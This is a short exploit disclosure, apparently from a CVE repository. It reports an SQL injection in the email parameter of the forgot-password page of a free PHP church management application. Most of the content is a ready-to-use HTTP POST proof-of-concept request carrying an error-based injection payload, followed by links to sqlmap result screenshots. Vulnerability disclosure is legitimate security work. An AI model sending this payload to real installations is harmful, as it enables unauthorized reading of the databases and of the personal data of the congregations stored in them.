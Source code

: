 ### Exploit Title: Best church management software - SQL-injections 
### Date: 2025-02/11
### Exploit Author: xiahao@webray.com.cn
### Vendor Homepage: https://www.sourcecodester.com
### Software Link: https://www.sourcecodester.com/php/17856/best-church-management-software-free-download-full-version.html
### Version: 1.0
### Tested on: windows10 + phpstudy

# 1./fpassword.php SQL injection exists for parameter email

### Sample request POC #1

```
POST /fpassword.php HTTP/1.1
Host: localhost:8001
Cache-Control: no-cache
Content-Type: application/x-www-form-urlencoded

submit=1&email='+AND+GTID_SUBSET(CONCAT(0x716a6b6a71%2C(SELECT+(ELT(3732%3D3732%2C1)))%2C0x716b7a7671)%2C3732)--+meD
```
### Sqlmap running results
![blockchain](https://github.com/xiahao90/CVEproject/blob/main/imgs/1739238772979.jpg "Best church management software")

![blockchain](https://github.com/xiahao90/CVEproject/blob/main/imgs/1739238715998.jpg "Best church management software")
